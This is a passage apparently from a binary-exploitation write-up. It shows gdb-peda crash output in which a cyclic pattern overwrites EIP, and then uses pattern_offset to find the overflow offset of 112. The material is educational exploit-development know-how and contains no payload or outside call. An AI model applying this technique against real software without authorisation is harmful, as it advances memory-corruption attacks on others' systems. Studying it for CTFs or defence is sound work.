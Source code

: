     ESP: 0xffffcf80 ("ANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8"...)
    EIP: 0x41384141 ('AA8A')
    EFLAGS: 0x10202 (carry parity adjust zero sign trap INTERRUPT direction overflow)
    [-------------------------------------code-------------------------------------]
    Invalid $PC address: 0x41384141
    [------------------------------------stack-------------------------------------]
    0000| 0xffffcf80 ("ANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8"...)
    0004| 0xffffcf84 ("jAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA"...)
    0008| 0xffffcf88 ("AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%"...)
    0012| 0xffffcf8c ("AkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%O"...)
    0016| 0xffffcf90 ("PAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA"...)
    0020| 0xffffcf94 ("AAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%"...)
    0024| 0xffffcf98 ("AmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%lA%Q"...)
    0028| 0xffffcf9c ("RAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%lA%QA%mA"...)
    [------------------------------------------------------------------------------]
    Legend: code, data, rodata, value
    Stopped reason: SIGSEGV
    0x41384141 in ?? ()
    

I see that the program crashed at `0x41384141` from the message at the bottom.
I’ll see this same value in the EIP register if I look up a bit:

    
    
    EIP: 0x41384141 ('AA8A')
    

I can feed that value, either as hex or as a string, into `pattern_offset` to
get the offset in my buffer to the address that overwrites EIP:

    
    
    gdb-peda$ pattern_offset AA8A
    AA8A found at offset: 112
    gdb-peda$ pattern_offset 0x41384141
    1094205761 found at offset: 112
    